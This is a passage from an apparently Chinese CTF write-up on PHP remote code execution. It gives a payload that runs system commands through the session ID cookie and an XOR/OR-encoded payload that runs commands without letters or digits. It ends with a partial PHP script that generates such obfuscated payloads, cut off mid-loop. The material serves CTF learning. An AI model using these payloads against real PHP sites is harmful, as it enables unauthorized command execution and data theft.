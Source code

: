 以edge浏览器为例，应用程序>Cookie>右键添加一项，写入PHPSESSID的值。

![image-20220815211413950](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202209091333974.png)

直接读取即可, payload:

```php
c=session_start();system(session_id());
```

使用范围：

PHP 5.5-7.1.9之间可以使用。

PHP 5.5以下及PHP7.1以上时，session_id只能是0-9，a-z，A-Z中的字符。

### 无字母数字RCE（php7

用不可见字符，采用异或、或、取反的方式构造出payload。

原理是，**在PHP7中**，可以使用('phpinfo')()这种方式执行函数。

payload示例如下：("system")("cat flag.php")

```
c=("%13%19%60%60%60%0d"|"%60%60%13%14%25%60")("%03%21%60%00%06%0c%21%27%28%60%60%10"|"%60%40%14%20%60%60%40%40%06%10%28%60")
```

贴一个自己写的脚本

```php
<?php

function generate_code($preg, $code, $mode)
{
    if ($mode === 3) {
        $result = "";
        for ($i = 0; $i <= strlen($code); $i++) {
            $t = $code[$i];
            $out = dechex(ord(~$t));
            if(strlen($out) === 1){
                $out = "0".$out;
            }
            $result = $result."%".$out;
        }
        echo "code: (~$result)";
        die();
    }

    $output1 = "";
    $output2 = "";
    for ($ii = 0; $ii < strlen($code); $ii++) {
        $i = $code[$ii]; // 别问这里变量命名怎么这么奇怪 问就是之前不小心写错了懒得改
        $flag = 0;
        for ($j = 0; $j <= 128; $j++) {
            if (preg_match($preg, chr($j))) {
                continue;
            }
            for ($k = 0; $k <= 128; $k++) {
                if (preg_match($preg, chr($k))) {
                    continue;
                }
                $mode === 1 ? $result = $j ^ $k : $result = $j | $k;
                if ($result === ord($i)) {
                    if (strlen(dechex($j)) == 1) {
                        $temp1 = '0' . dechex($j);
                    } else {
                        $temp1 = dechex($j);
```